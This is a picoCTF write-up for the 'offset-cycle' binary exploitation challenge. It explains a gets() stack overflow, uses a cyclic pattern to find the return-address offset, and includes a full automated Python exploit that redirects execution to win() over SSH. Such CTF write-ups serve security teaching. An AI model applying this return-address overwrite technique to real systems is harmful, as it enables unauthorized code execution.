






# offset-cycle

**Category:** Binary Exploitation
**Difficulty:** Medium
**Author:** Aditya Sudhansu

---

## Challenge Description

The challenge description says:

```text
It's a race against time. Solve the binary exploit ASAP.
```

The provided instructions explain that running `./start` generates a random C source file and a corresponding binary from the Code Bank. Once the files are generated, we only have 120 seconds to exploit the binary.



This means the challenge is not about solving one fixed binary.
Each generated binary can be different, so values like the buffer size, offset, and even the exact generated filename may change.

Because of that, the exploit process must be fast and repeatable.

---

## Generating a Binary

The challenge starts by running:

```bash
./start
```

This selects a C file from the Code Bank, copies it into the current directory, compiles it, and gives the generated binary access to `flag.txt`.

Example output:

```text
[+] Selected file: 22.c
[+] Copied 22.c to current directory.
[+] Compilation successful: 22
[+] Binary 22 has access to flag.txt
[*] Deletion scheduled: files will be removed in 120 seconds
```



The important points are:

```text
Generated source: 22.c
Generated binary: 22
Time limit: 120 seconds
```

Since the files are deleted after the timeout, the exploit needs to be done quickly.

---

## Source Code Analysis

In the generated source file, there is a `win()` function:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("CodeBank/flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "You may not have plenty of time",
                    "to solve the challenge.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```



The `win()` function opens:

```text
CodeBank/flag.txt
```

Then it reads and prints the flag.

The vulnerable function is:

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The vulnerability is caused by:

```c
gets(buf);
```

`gets()` does not check the size of the destination buffer.
Therefore, if we send enough data, we can overflow the stack buffer and overwrite the saved return address.

The program also prints:

```c
get_return_address()
```

This is very useful because after sending a cyclic pattern, the program tells us what value the saved return address was overwritten with.

---

## Binary Information

I checked the generated binary using:

```bash
file ./4
checksec --file=./4
```


The binary is a 32-bit ELF executable:

```text
ELF 32-bit LSB executable
Intel 80386
not stripped
```

The protections show:

```text
No canary found
No PIE
```

Important conclusions:

* The binary is **32-bit**, so the return address is 4 bytes.
* We need to use `p32()` when packing addresses.
* There is **no stack canary**, so the overflow is not blocked.
* There is **No PIE**, so the `win()` address is fixed for that generated binary.
* The binary is **not stripped**, so the `win` symbol can be extracted with `nm` or `objdump`.

---

## Finding the Address of `win()`

To get the address of `win()`, I used:

```bash
objdump -d ./6 | grep -A8 '<win>'
```



The output showed:

```text
080491f6 <win>:
```

So, for that generated binary:

```text
win = 0x080491f6
```

Because the binary is 32-bit, this address must be packed as:

```python
p32(0x080491f6)
```

Important note: this address can change depending on the generated binary, so it should be extracted dynamically every time.

---

## Finding the Offset

To find the offset, I sent a cyclic pattern to the binary:

```bash
python3 -c 'from pwn import cyclic; import sys; sys.stdout.buffer.write(cyclic(512)+b"\n")' | ./6
```

The program printed:

```text
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault
```

The value:

```text
0x6161616c
```

is the overwritten return address.

Then I used `cyclic_find()` to calculate the offset:

```python
from pwn import cyclic_find, p32

jumped_to = 0x6161616c
offset = cyclic_find(p32(jumped_to))

print("jumped_to =", hex(jumped_to))
print("offset =", offset)
```



The result was:

```text
jumped_to = 0x6161616c
offset = 44
```

So, for that generated binary, the saved return address is reached after:

```text
44 bytes
```

Again, this can change depending on the generated file, so the offset should be calculated dynamically.

---

## Exploit Strategy

For one generated binary, the exploit structure is:

```text
padding + win_address
```

For example:

```python
payload = b"A" * offset + p32(win)
```

If the offset is `44` and `win()` is at `0x080491f6`, the payload becomes:

```python
payload = b"A" * 44 + p32(0x080491f6)
```

When the vulnerable function returns, it will jump to `win()` instead of returning normally.

This prints the flag.

---

## Why Automation Is Needed

The challenge gives only 120 seconds after running `./start`.

Also, each generated binary can be different.
That means the exploit cannot rely on hardcoded values.

The solver must automatically:

```text
1. Run ./start
2. Detect the generated binary name
3. Extract the win() address
4. Send a cyclic pattern
5. Parse the printed “Jumping to 0x...” address
6. Calculate the offset
7. Build the payload
8. Run the binary with the payload
9. Extract the flag
```

---

## Final Solver Logic

The automated solver follows the same steps manually described above.

```python
#!/usr/bin/env python3
import argparse
import re
import sys

import pexpect
from pwn import cyclic, cyclic_find, p32


PROMPT = "__PROMPT__# "
ANSI_RE = re.compile(r"\x1b\[[0-9;?]*[ -/]*[@-~]")


def clean(text):
    return ANSI_RE.sub("", text).replace("\r", "")


class RemoteShell:
    def __init__(self, host, port, user, password, timeout, verbose):
        self.password = password
        self.verbose = verbose
        self.child = pexpect.spawn(
            "ssh",
            [
                "-tt",
                "-o",
                "StrictHostKeyChecking=no",
                "-p",
                str(port),
                f"{user}@{host}",
                "/bin/bash",
                "--noprofile",
                "--norc",
                "-i",
            ],
            encoding="utf-8",
            timeout=timeout,
        )
        if verbose:
            self.child.logfile = sys.stdout

    def login(self):
        while True:
            idx = self.child.expect(
                [
                    r"[Pp]assword:",
                    r"[$#] ",
                    pexpect.EOF,
                    pexpect.TIMEOUT,
                ]
            )
            if idx == 0:
                self.child.sendline(self.password)
            elif idx == 1:
                break
            elif idx == 2:
                raise RuntimeError("SSH session closed before login completed.")
            else:
                raise RuntimeError("Timed out while waiting for SSH login.")

        self.child.sendline(f"export PS1='{PROMPT}'")
        self.child.expect(r"\r\n")
        self.child.expect_exact(PROMPT)

    def run(self, command):
        self.child.sendline(command)
        self.child.expect_exact(PROMPT)
        output = clean(self.child.before)
        lines = output.splitlines()
        if lines and lines[0].strip() == command.strip():
            lines = lines[1:]
        return "\n".join(lines).strip()

    def close(self):
        self.child.sendline("exit")
        self.child.close()


def parse_args():
    parser = argparse.ArgumentParser(description="Solve picoCTF offset-cycle")
    parser.add_argument("--host", default="green-hill.picoctf.net")
    parser.add_argument("--port", default=49798, type=int)
    parser.add_argument("--user", default="ctf-player")
    parser.add_argument("--password", default="fa005713")
    parser.add_argument("--timeout", default=15, type=int)
    parser.add_argument("--verbose", action="store_true")
    return parser.parse_args()


def main():
    args = parse_args()
    shell = RemoteShell(
        host=args.host,
        port=args.port,
        user=args.user,
        password=args.password,
        timeout=args.timeout,
        verbose=args.verbose,
    )

    try:
        shell.login()

        start_output = shell.run("./start")
        print(start_output)

        match = re.search(r"Compilation successful:\s*(\S+)", start_output)
        if not match:
            raise RuntimeError("Could not determine generated binary name.")
        binary = match.group(1)

        win_output = shell.run(f"nm -n {binary} | awk '/ win$/'")
        print(win_output)

        match = re.search(r"^([0-9a-fA-F]+)\s+T\s+win$", win_output, re.M)
        if not match:
            raise RuntimeError("Could not locate win() symbol.")
        win_addr = int(match.group(1), 16)

        cyclic_cmd = (
            f'python3 -c \'from pwn import cyclic; import sys; '
            f'sys.stdout.buffer.write(cyclic(512)+b"\\n")\' | ./{binary}'
        )

        cyclic_output = shell.run(cyclic_cmd)
        print(cyclic_output)

        match = re.search(r"Jumping to 0x([0-9a-fA-F]+)", cyclic_output)
        if not match:
            raise RuntimeError("Could not recover overwritten return address.")

        jumped_to = int(match.group(1), 16)
        offset = cyclic_find(p32(jumped_to))

        if offset < 0:
            raise RuntimeError("Could not compute saved return address offset.")

        print(f"[+] Computed offset: {offset}")
        print(f"[+] win() address: 0x{win_addr:08x}")

        payload_cmd = (
            f'python3 -c \'from pwn import p32; import sys; '
            f'sys.stdout.buffer.write(b"A"*{offset}+p32(0x{win_addr:08x})+b"\\n")\' | ./{binary}'
        )

        exploit_output = shell.run(payload_cmd)
        print(exploit_output)

        flag_match = re.search(r"(picoCTF\{[^}]+\})", exploit_output)
        if flag_match:
            print(f"[+] Flag: {flag_match.group(1)}")
        else:
            raise RuntimeError("Exploit ran, but no flag was found in output.")

    finally:
        shell.close()


if __name__ == "__main__":
    main()
```

---

## Running the Solver

I ran the solver with:

```bash
python3 solve.py
```

The solver generated a new binary, extracted `win()`, sent a cyclic pattern, computed the offset, built the payload, and executed the exploit automatically.



In the final run, the solver showed:

```text
[+] Computed offset: 143
[+] win() address: 0x080491f6
[+] Flag: picoCTF{...}
```

The offset was different from the previous sample because the generated binary was different.

This confirms why the exploit must calculate the offset dynamically.

---

## Solution Summary

```text
1. Read the challenge instructions.
2. Run ./start to generate a temporary binary and source file.
3. Review the source code.
4. Identify gets(buf) as the buffer overflow vulnerability.
5. Identify win() as the function that prints flag.txt.
6. Check binary properties:
   - 32-bit
   - No canary
   - No PIE
   - Not stripped
7. Extract win() address with nm or objdump.
8. Send a cyclic pattern to overwrite the return address.
9. Parse the printed “Jumping to 0x...” value.
10. Compute the offset with cyclic_find(p32(value)).
11. Build payload:
    b"A" * offset + p32(win)
12. Send the payload to the generated binary.
13. Read the flag.
```

---

## Tools Used

```text
ssh
file
checksec
objdump
nm
pwntools cyclic
pwntools cyclic_find
pwntools p32
pexpect
Python
```

---

## Key Takeaways

* `gets()` is unsafe because it does not check the input size.
* A cyclic pattern is useful for finding the exact offset to the saved return address.
* In 32-bit binaries, saved EIP is overwritten with 4 bytes.
* `p32()` is required to pack the target address.
* With No PIE, `win()` has a fixed address inside each generated binary.
* Since every generated binary is different, the offset and address must be extracted dynamically.
* The 120-second time limit makes automation the most reliable approach.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
